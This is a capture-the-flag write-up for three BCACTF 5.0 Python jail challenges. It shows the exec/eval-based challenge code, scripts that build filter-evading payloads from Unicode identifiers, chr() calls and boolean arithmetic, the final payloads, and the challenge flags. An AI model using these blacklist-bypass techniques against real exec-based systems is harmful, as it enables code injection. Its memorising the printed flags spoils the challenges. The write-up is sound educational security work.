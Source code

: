 # BCACTF 5.0

## JailBreak 1/JailBreak 2/JailBreak Revenge

> (#1)
> I cannot get the python file to print the flag, are you able to?
>
> (#2)
> The prison has increased security measures since you last escaped it. Can you still manage to escape?
> 
> (Revenge)
> Some of y'all cheesed the previous two jailbreaks, so it looks like they've put even more band-aids on the system...
> 
> Author: Jack
> 
> [`deploy.py`](deploy.py), [`main.py`](main.py), [`main_revenge.py`](main_revenge.py)

Tags: _misc_

## Solution
*JailBreak*  was a sequence of two python jail challenges. For *JailBreak 1* [`deploy.py`](deploy.py) was delivered and for *JailBreak 2* [`main.py`](main.py) respectively. The code is faily small, there is a blacklist of `banned characters`.

```python
def sanitize(letter):
    print("Checking for contraband...")
    return any([i in letter.lower() for i in BANNED_CHARS])

BANNED_CHARS = "gdvxftundmnt'~`@#$%^&*-/.{}"
flag = open('flag.txt').read().strip()

print("Welcome to the prison's mail center")
msg = input("Please enter your message: ")

if sanitize(msg): 
    print("Contraband letters found!\nMessage Deleted!")
    exit()

exec(msg)
```

I solved both challenges with the same approach, since unicode characters are not forbidden a feature of Python can be used: the interpreter allows names in code to contain a subset of unicode characters and reduces them to the corresponding characters in `Basic Latin`. We can convert our code like this and putting `𝘱𝘳𝘪𝘯𝘵(𝘧𝘭𝘢𝘨)` to the challenge gives us the flag.

```python
def to_unicode(s):
    alphabet = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz"
    return ''.join([chr(alphabet.index(c) + 0x1D608) if c in alphabet else c for c in s])
```

# Intended Solution JailBreak 1

Actually, this was not the intended solution. And a `revenge challenge` was published that blacklisted the unicode approach. So, to see where we are we check which characters are allowed.

```python
BANNED_CHARS = "gdvxftundmnt'~`@#$%^&*-/.{}"

allowed_chars = ""
for c in range(32, 128):
    if chr(c) not in BANNED_CHARS:
        allowed_chars += chr(c)

print(allowed_chars)
```

There are quite some characters allowed , thats good. 

```bash
 !"()+,0123456789:;<=>?ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]_abcehijklopqrswyz|
 ```

 Lets see which [`built-in functions`](https://docs.python.org/3/library/functions.html) are available (remember `__builtin__` is set to an empty dictionary, but these functions are always available).

 ```python
 import keyword, builtins, inspect

BANNED_CHARS = "gdvxftundmnt'~`@#$%^&*-/.{}"

allowed_chars = ""
allowed_keywords = []
allowed_builtins = []

def is_valid(value):
    global allowed_chars
    return all([True if c in allowed_chars else False for c in value])

for c in range(32, 127):
    if chr(c) not in BANNED_CHARS:
        allowed_chars += chr(c)

builtins_ = [name for name, obj in inspect.getmembers(builtins)]
for builtin in builtins_:
    if is_valid(builtin):
        allowed_builtins.append(builtin)

for kw in keyword.kwlist:
    if is_valid(kw):
        allowed_keywords.append(kw)

print(allowed_chars)
print(", ".join(allowed_keywords))
print(", ".join(allowed_builtins))
 ```

 The functions we can use are:

 ```bash
  !"()+,0123456789:;<=>?ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]_abcehijklopqrswyz|
False, as, break, class, else, is, or, pass, raise, while
EOFError, Ellipsis, False, IOError, KeyError, OSError, TabError, TypeError, __spec__, abs, all, ascii, bool, callable, chr, hash, help, locals, pow, repr, slice, zip
 ```

Great, locals is avaiable, that gives us the `current local symbol table`, which also contains `flag`. But we don't have access to print. But we can use the keyword `raise` to raise an exception that leaks values for us. Our payload would be `raise IOError(flag)`, but sadly `f` and `g` are blocked. Since we have access to `chr` we can bypass this with `raise IOError(locals()[chr(102)+"la"+chr(103)])`

# Intended Solution JailBreak 2

Now for the second one. Lets run our script with the forbidden characters.

```bash
 !"()*+,-:;<=>?ABCDEFGHIJKLMNOPQRSTUVWXYZ[]_abchjklopqrswz|
as, class, or, pass
EOFError, IOError, OSError, TabError, abs, all, bool, chr, hash, locals, pow
```

This time no `raise`, also no numbers to specify characters. But our input is passed to `eval` which means we only have to get the string `flag` together.

To get numbers we can use boolean logic, where `True` is cast to `1`. So we can add boolean expressions together. One thing that works is `[[]]>[]` which resolves to `True`. Since we have `+, -, <<` we can stitch together the number of expressions to end at the character code we are looking for. I wrote a small script that does this.

```python
import math

one = "([[]]>[])"

def next_power_of_two(n):
    n = n - 1
    while n & n - 1:
        n = n & n - 1
    return n << 1

def _num(value):
    return f"({'+'.join([one]*value)})"

def _pow(exp):
    return f"{one}<<{_num(exp)}"

def _chr(c):
    p = math.frexp(next_power_of_two(ord(c)))[1]-1
    return f"({_pow(p)})-({_num((1<<p)-ord(c))})"

payload = ""
for c in "flag":
    payload += f"chr({_chr(c)})+"

print(payload[:-1])
```

The final payload looks like this. Putting it as input gives us the flag.

```python
locals()[chr((([[]]>[])<<(([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])))-((([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[]))))+chr((([[]]>[])<<(([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])))-((([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[]))))+chr((([[]]>[])<<(([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])))-((([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[]))))+chr((([[]]>[])<<(([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])))-((([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[])+([[]]>[]))))]
```

# Bonus JailBreak Revenge

JailBreak Revenge filters even more characters.

```bash
()+<>ABCDEFGHIJKLMNOPQRSTUVWXYZ[]achjloqrswz
as, class, or
EOFError, IOError, OSError, all, chr, hash, locals
```

We don't have `-` anymore, so we can adapt the script from above to only use `+`.

```python
def _chr(c):
    p = math.frexp(next_power_of_two(ord(c))>>1)[1]-1
    return f"({_pow(p)})+({_num((ord(c)-(1<<p)))})"
```

The rest stays the same as for JailBreak 2, leading us to the flag.

Flag `bcactf{PyTH0n_pR0_03ed78292b89c}`, `bcactf{PyTH0n_M4st3R_Pr0veD}`, `bcactf{Wr1tING_pyJaiL5_iS_hArD_f56450aadefcc}`